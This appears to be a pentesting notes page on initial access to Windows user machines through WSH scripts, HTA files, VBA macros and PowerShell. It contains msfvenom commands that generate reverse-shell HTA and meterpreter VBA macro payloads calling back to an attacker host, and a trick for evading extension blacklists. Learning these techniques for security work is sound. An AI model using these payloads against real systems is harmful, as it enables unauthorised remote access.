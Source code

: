 ```yaml
---
title: Windows machine (user-OS) initial access
---
```


- [1. Windows Scripting Host (WSH)](#1-windows-scripting-host-wsh)
- [2. HTML Application (HTA)](#2-html-application-hta)
- [3. Visual Basic for Application (VBA)](#3-visual-basic-for-application-vba)
- [4. Powershell script](#4-powershell-script)

## 1. Windows Scripting Host (WSH)

WSH is language-independent technology to run scripts written in Active Scripting languages. It's old and available on every Windows machine by default. Users can install different scripting engines to support different scripting languages (e.g. PerlScript, RubyScript).

Engines to run JScript (`.js` file) and VBScript (`.vbs` file) are installed by default. Administrator can also use `.wsf` file (_Windows Scripting File_) in order to mix different scripting languages in one scripting file. Windows OS runs scripts with the same level of access and permission as a regular user.

> **TRICK**: VBScript file might be renamed to `example.txt` and executed using the following command: `wscript /e:VBScript <path-to-script>`. This trick can bypass file extension blacklists.

```powershell
# Console application
cscript <path-to-console-script>

# Window application
wscript <path-to-window-script>
```

## 2. HTML Application (HTA)

HTA is a Windows program whose source code consists of HTML, CSS and one or more scripting languages supported by WSH - JScript and VBScript. Actually it works like a Windows program with GUI written in HTML and logic written in scripting language. Because it's executed locally, it's often used as a GUI for administration tools. The usual HTA file extension is `.hta`.

HTAs are interpreted by mshta.exe (LOLBin) after double clicking. Under the hood it is rendered by Internet Explorer (officially: _Trident_ engine, called _MSHTML_ as well) browser engine even if IE is not installed in the OS (still works in Windows 11).

HTAs files often can be executed immediately after download. Because of that they are used to establish reverse shell by attackers. `msvenom` and `msfconsole` have a generators of HTA rev-shell files.

```bash
# Generate malicious HTA file
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o rev-shell.hta
```

## 3. Visual Basic for Application (VBA)

VBA is almost the same as Visual Basic but its main purpose is to automate tasks in Microsoft Office applications (Word, Excel, PowerPoint, Outlook etc.). It cannot work independently. Macros are written in VBA. They can be combined with HTA and WSH methods to bypass more detection softwares.

```bash
# Generate malicious VBA macro payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f vba
```

## 4. Powershell script

PS execution policy is by default set to `Restriced`. It means that user can execute single commands but not to run any PS script (`.ps1` file).

```powershell
# Check current execution policy
Get-ExecutionPolicy

# Change current execution policy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
